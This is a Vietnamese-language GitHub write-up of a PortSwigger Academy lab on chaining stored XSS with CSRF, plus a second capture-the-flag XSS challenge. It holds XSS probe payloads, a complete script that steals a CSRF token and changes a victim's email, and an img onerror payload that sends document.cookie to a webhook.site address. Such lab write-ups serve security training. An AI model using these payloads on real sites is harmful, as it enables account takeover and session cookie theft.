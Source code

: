 # CSRF

# Demo: Exploiting XSS to perform CSRF @ PortSwigger Academy

![logo](https://github.com/elliSzAt/CSRF/assets/125866921/aebb59de-c415-44ef-849c-da53c5a2a939)

This write-up for the lab *Exploiting XSS to perform CSRF* is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Learning path: Client-side → Cross-site scripting (XSS)

Lab-Link: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf>  
Difficulty: PRACTITIONER  

## Lab description

![lab_description](https://github.com/elliSzAt/CSRF/assets/125866921/7d32f4a4-d28a-4c4e-97a2-09f396b89a69)

## Steps

### Analysis

Như thường lệ, bước đầu tiên là phân tích chức năng của bài lab, trong trường hợp này là trang blog.

### Find stored XSS

Có một nơi trong các trang công cộng mà bất kỳ khách truy cập nào cũng có thể thêm nội dung: phần bình luận bên dưới mỗi bài viết (mô tả trong bài lab đã nêu rõ vị trí của nó, nhưng dù sao thì đó cũng là nơi duy nhất để lưu trữ nội dung).

Do đó tôi đã thử để xem có thể chèn các thẻ ``html`` vào được không.

![inserted_html](https://github.com/elliSzAt/CSRF/assets/125866921/296926fa-c29c-4a35-8e3e-b270dc0887a0)

![inserted_html_result](https://github.com/elliSzAt/CSRF/assets/125866921/c0762409-b48c-4e27-9cbb-c4e81c1486ed)

Ta có thể thấy trong phần ``Name`` có 1 vài thử đã bị mã hóa, nhưng nội dung mà tôi bình luận thì sẽ được đưa thẳng vào.

Bước tiếp theo tôi tìm hiểu là:

- Có thể chèn 1 khối tài liệu 1 cách đầy đủ hay không.
- Có thể thêm 1 script chứa tag ``img`` hay không.
- Có bất kì thứ gì bị chặn hay bị mã hóa chống tấn công XSS không.

Tôi tiến hành detect với payload sau.
```
<script>alert(document.domain)</script>
<img src=x onerror='alert(document.domain)' />
xX';!--"<XSS>=\&{()}<br />Xx
```

![xss_answers](https://github.com/elliSzAt/CSRF/assets/125866921/1acbc6e5-fddd-4943-ac33-72262c21c4ad)

Khi xem phần bình luận, tôi thấy được những kí tự nào bị block và mã hóa, tiếp theo tôi cần tìm chỗ để tiêm payload của mình vào.

---

### Find out how to change email

Bây giờ là lúc sử dụng thông tin đăng nhập được cung cấp và đăng nhập với tư cách `wiener`. Mục tiêu của phòng thí nghiệm là thay đổi email của nạn nhân, vì vậy tôi xem cách hoạt động của nó:

![email_change](https://github.com/elliSzAt/CSRF/assets/125866921/ba5c51c4-c365-47bc-899f-2fe1d5d4e88b)

Yêu cầu được bảo vệ bằng mã thông báo CSRF được lưu trữ trong trường nhập ẩn của biểu mẫu thay đổi email.

Nói chung, mã thông báo như vậy là cách thích hợp để bảo vệ khỏi các cuộc tấn công CSRF và trình duyệt sẽ ngăn tôi đọc nội dung qua JavaScript từ các nguồn khác.

Tuy nhiên, trong trường hợp này, tôi có một lỗ hổng XSS mà hạn chế này không áp dụng vì nó đang chạy ở cùng một nguồn gốc.

---

### Chain the vulnerabilities

Để mọi thứ hoạt động, tôi cần xâu chuỗi các lỗ hổng này lại với nhau:

- Một cuộc tấn công CSRF gửi yêu cầu thay đổi email.
- The stored XSS lấy mã thông báo CSRF và thực hiện cuộc tấn công CSRF đó

Payload của tôi cần trích xuất mã thông báo CSRF từ trang `/my-account`. Cách tốt nhất là sử dụng biểu thức chính quy để phân tích cú pháp HTML và trả về mã thông báo.

Search gg 1 tí thì có tài liệu về  [match](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/match) và cách trả về giá trị của nó:

![match_docu](https://github.com/elliSzAt/CSRF/assets/125866921/c3e7e80b-698f-4282-b59b-034e2ec03657)

Để tìm biểu thức thích hợp, tôi chuyển sang [regex101](https://regex101.com/), sử dụng nguồn HTML đầy đủ của trang tài khoản làm chuỗi thử nghiệm.

![regex_crafter](https://github.com/elliSzAt/CSRF/assets/125866921/9bae237c-146c-4dd1-9970-548a35b5f6ca)

Với công cụ này, tôi thấy regex là `csrf" value="(\w+)"`. Không sử dụng `g` flag đảm bảo rằng mã thông báo CSRF được bao gồm trong kết quả của trận đấu dưới dạng mục thứ hai trong mảng trả về của `match`

---

### The malicious comment

Payload của tôi sẽ trông như thế này:

```html
<script>
var r = new XMLHttpRequest();
r.onload=function() {
    csrf = this.responseText.match(/csrf" value="(\w+)"/)[1];
    var attack = new XMLHttpRequest();
    attack.open("POST", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account/change-email", true);
    attack.send("email=mail@evil.me&csrf=" + csrf);
}
r.open("GET", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account", true);
r.withCredential = true;
r.send();
</script>
```

Đầu tiên, nó có được trang web tài khoản. Từ kết quả, nó trích xuất mã thông báo CSRF và đưa ra một yêu cầu khác đối với chức năng thay đổi email.

![malicious_comment](https://github.com/elliSzAt/CSRF/assets/125866921/f95453ec-b9f7-4d31-85b4-b6e3a44c5919)

Ngay sau khi gửi bình luận, lab sẽ cập nhật lên

Sau khi truy cập thủ công trang bình luận và truy cập trang tài khoản, tôi có thể xác minh rằng email thực sự đã bị thay đổi chỉ bằng cách xem bình luận:

![success](https://github.com/elliSzAt/CSRF/assets/125866921/83249619-f4c0-41b1-9d73-1f970c03655a)

---


# XSS

Phần đầu của thử thách là XSS nên tôi đã thử truyền vào một lệnh ``alert`` thông qua thẻ ``<script>`` thông thường nhưng.

![213097372-e4471a0a-8454-4545-a377-b001d0787208](https://github.com/elliSzAt/CSRF-XSS/assets/125866921/09b1e368-ceb6-4add-9f76-1dd9ff6a6976)

Thử tiếp với các thẻ có khả năng thì tôi tìm được thẻ ``<img src =hihi onerror=alert('Hihihi!')>``

![213102774-48d5bcf3-cb4e-4eb5-acf1-405423f37ec5](https://github.com/elliSzAt/CSRF-XSS/assets/125866921/21d1320f-ad88-4fb5-b523-bb5868034af9)

Tiếp theo bấm vào gửi report tại đây:

![213104077-41c2816a-81e1-45d7-8b63-a48e7726ae60](https://github.com/elliSzAt/CSRF-XSS/assets/125866921/cb0f1a6f-7bc6-478b-836e-b871d6713b66)

Tôi tạo một server trên ``https://webhook.site`` và gửi request với thẻ ``<img>`` vừa tìm được qua fetch API, payload:
``http://127.0.0.1:13337/?message=<image src=hihi onerror=fetch(`http://webhook.site/38bc6754-b246-4dbf-b3ab-5d0bfc9a62dd`)>``

![213104767-b4ce454c-8ea7-4a1d-b41c-f7c348734db2](https://github.com/elliSzAt/CSRF-XSS/assets/125866921/816fcbc9-6b7a-4177-b017-ad83c5f50ec8)

Bây giờ tôi sẽ thử đánh cắp cookie của con bot với payload sau: ``` http://127.0.0.1:13337/?message=<image src=hihi onerror=fetch(`http://webhook.site/38bc6754-b246-4dbf-b3ab-5d0bfc9a62dd?a=${document.cookie}`)>```

![213105763-e87f92f7-2f34-4baf-a7fa-43f86dd5a405](https://github.com/elliSzAt/CSRF-XSS/assets/125866921/770daed8-888f-4fdb-9272-01fa9380b3bc)

Sau khi thực hiện thành công thì nhìn sang ``webhook`` đã trả về cookie mà tôi cần.

